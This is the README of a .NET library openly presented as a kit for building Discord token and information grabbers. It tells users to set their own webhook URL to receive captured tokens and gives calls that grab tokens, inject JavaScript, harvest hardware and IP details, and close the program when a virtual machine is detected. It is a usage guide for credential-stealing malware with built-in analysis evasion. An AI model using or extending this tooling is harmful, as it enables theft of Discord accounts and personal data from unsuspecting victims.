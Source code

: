 # Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Build
#### - Built using Visual Studio 2019 Community
1. Open project
2. Change [all instances of "webhook-here"](https://github.com/Jxiced/Discord-Token-Grabber-Library/search?q=webhook-here) to your webhook URL
3. Build Solution
4. ???
5. Profit

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

#### To grab tokens call
```Furious.Grabber.QuickStart(true);```
#### To collect hardware information
```Furious.Grabber.QuickStart(injectJS, getUserHardware: true);```
#### To check for a virtual machine
```Furious.Grabber.QuickStart(injectJS, getUserHardware, checkForVM: true);``` - if a VM is detected, the application will close instantly.
#### To send data (hardware, ip etc.) to webhook
```Furious.Grabber.SendData(await Grabber.GetHardware());```
# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
